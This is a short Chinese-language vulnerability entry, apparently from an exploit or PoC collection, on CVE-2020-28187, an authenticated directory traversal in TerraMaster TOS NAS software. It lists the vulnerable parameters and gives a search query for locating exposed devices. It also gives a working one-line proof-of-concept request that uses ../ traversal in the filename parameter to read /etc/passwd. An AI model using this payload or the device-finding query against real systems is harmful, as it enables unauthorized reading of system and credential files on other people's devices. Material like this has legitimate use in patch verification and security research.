

# TerraMaster TOS 后台任意文件读取漏洞 CVE-2020-28187

## 漏洞描述

TerraMaster TOS <= 4.2.06中的多个目录遍历漏洞允许远程身份验证的攻击者通过/tos/index.php?editor/fileGet路径下的filename参数、 /include/ajax/logtable.php路径下的Event参数和/include/core/index.php路径下的opt参数，读取文件系统中的任何文件。

## 漏洞影响

<a-checkbox checked>TerraMaster TOS < 4.2.06</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"TerraMaster" && header="TOS"</a-checkbox></br>

## 漏洞复现

登陆后访问，验证漏洞的POC为

```plain
/tos/index.php?editor/fileGet&filename=../../../../../../etc/passwd
```

